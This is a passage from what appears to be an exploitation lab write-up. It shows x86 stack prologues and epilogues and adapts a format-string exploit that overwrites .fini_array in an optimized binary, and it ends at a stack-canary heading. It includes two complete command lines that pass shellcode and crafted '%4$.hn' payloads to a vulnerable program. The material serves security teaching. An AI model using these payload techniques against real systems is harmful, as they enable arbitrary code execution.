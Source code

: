 As a reference, the function prologue and epilogue in the non-optimized executable are of the form (comments added for clarification)

```asm
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```

whereas in the optimized executable they are of the form (comments added for clarification)

```asm
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```

These code examples support the above points concerning the non-exploitability of the off-by-one-vulnerability in this case.

### Overwriting .dtors

Of course for the optimized executable the same restrictions and changes apply as for the non-optimized executable (c.f. [the section about the original exploit](#overwriting-.dtors)).

The same exploit works with three slight changes:

1. The address of the `.fini_array` section now is `0x0804b17c` instead of `0x0804b168`.
   Thus, the address (provided at the start of the exploit string) has to be changed.
2. When we want to reference that address from the exploit string, it is not the first argument to `snprintf` on the stack (i.e. accessed by the `%hn` format string placeholder) but the fourth (i.e. accessed by the `%4$.hn` format string placeholder).
3. The address of the `globalbuff` array in the `.bss` section changed.
   Concretely, it increased by 32 which is why we also have to increase the number to overwrite the address in `.fini_array` with by 32 (i.e. 45756 "A"s for padding instead of 45724).
   If using a `%x` format string placeholder instead of the "A"s for padding, we can also write `%.45756x` instead for expanding the format string to the correct length we need.

Thus, we can either use `./ret2dtors "$(./shellcode)" "$(python3 -c "import sys; sys.stdout.buffer.write(b'\x7c\xb1\x04\x08' + b'A' * 45756 + b'%4$.hn')")"` (padding with "A"s) or `./ret2dtors "$(./shellcode)" "$(python3 -c "import sys; sys.stdout.buffer.write(b'\x7c\xb1\x04\x08 %.45754x %4$.hn')")"` (format string expansion, 45754 here because of the two spaces) for a working exploit after adapting the addresses and offsets.

# Stack canary bypassing
